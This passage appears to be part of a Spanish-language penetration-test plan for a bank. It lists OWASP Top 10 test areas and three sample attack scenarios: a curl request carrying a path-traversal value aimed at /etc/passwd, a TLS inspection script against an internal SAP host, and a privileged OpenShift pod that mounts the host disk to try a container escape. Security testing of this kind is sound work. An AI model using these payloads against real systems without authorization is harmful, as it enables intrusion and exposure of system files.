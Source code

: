 1. **A01:2021 - Broken Access Control**
   - Pruebas de escalación horizontal y vertical
   - Bypass de controles de autorización
   - Testing de IDOR (Insecure Direct Object References)

2. **A02:2021 - Cryptographic Failures**
   - Análisis de algoritmos de encriptación
   - Testing de SSL/TLS configuration
   - Validación de manejo de datos sensibles

3. **A03:2021 - Injection**
   - SQL Injection en APIs de consulta
   - NoSQL Injection en MongoDB queries
   - Command Injection en interfaces administrativas

#### Fase 3: Explotación Controlada (40 horas)
**Objetivo:** Validar impacto real de vulnerabilidades identificadas

**Escenarios de Ataque:**

1. **Scenario: Compromiso de API Gateway**
```bash
# Simulación de ataque a API Gateway
curl -X POST https://integration.globalbank.com/api/v1/accounts \
  -H "Authorization: Bearer INVALID_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"account_id": "../../../etc/passwd"}'
```

2. **Scenario: Man-in-the-Middle en Integración SAP**
```python
# Simulación de intercepción de tráfico SAP RFC
import socket
import ssl

def mitm_sap_connection():
    # Interceptar comunicación RFC con SAP
    context = ssl.create_default_context()
    with socket.create_connection(('sap.globalbank.internal', 3300)) as sock:
        with context.wrap_socket(sock, server_hostname='sap.globalbank.internal') as ssock:
            # Análisis de certificados y protocolos
            cert = ssock.getpeercert()
            cipher = ssock.cipher()
            return cert, cipher
```

3. **Scenario: Privilege Escalation en OpenShift**
```yaml
# Intento de escape de contenedor
apiVersion: v1
kind: Pod
metadata:
  name: security-test-pod
spec:
  containers:
  - name: test-container
    image: ubuntu:latest
    securityContext:
      privileged: true
    command: ["/bin/sh", "-c", "mount /dev/sda1 /mnt && ls /mnt"]
```
